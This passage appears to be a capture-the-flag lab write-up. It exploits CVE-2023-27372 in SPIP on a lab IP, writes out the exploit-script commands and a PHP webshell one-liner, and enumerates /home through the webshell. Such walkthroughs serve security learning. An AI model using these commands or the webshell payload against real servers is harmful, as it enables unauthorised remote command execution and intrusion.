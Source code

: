 ### Oh my machine got expired. the ip was changed
### Now Let take a try might be it will work. Let try to print hii and save it into a txt file.
```
python3 CVE-2023-27372.py -u http://10.10.191.151/spip -c 'echo "hii" > hii.txt'  -v
```

<div align="center">
<img src="https://github.com/user-attachments/assets/1cfb1ad9-a181-4f08-be0e-431c56ab2e4c" height=""></img>
</div>

### Let check it.

<div align="center">
<img src="https://github.com/user-attachments/assets/c7cbbe45-9efe-4ab3-b97c-8302ea808537" height=""></img>
</div>

### Let upload a webshell,
```
python3 CVE-2023-27372.py -u http://10.10.191.151/spip -c 'echo "<?php system(\$_GET[\"cmd\"]); ?>" > webshell.php'  -v
```

<div align="center">
<img src="https://github.com/user-attachments/assets/c266727c-fd85-444c-b0a0-3ea578fb479e" height=""></img>
</div>

### Let access it.

<div align="center">
<img src="https://github.com/user-attachments/assets/09b371cc-b7e1-4699-9907-c05738f8be3c" height=""></img>
</div>

### Let execute some commands

```
?cmd=ls -at /home
```
<div align="center">
<img src="https://github.com/user-attachments/assets/b4ce3867-2aa7-4a49-bc59-d5e80af8b0f8" height=""></img>
</div>

### There is only 1 user think , Let try to access his directories.

<div align="center">
<img src="https://github.com/user-attachments/assets/795776af-0ff7-4333-8d77-fc0a804f916d" height=""></img>
</div>
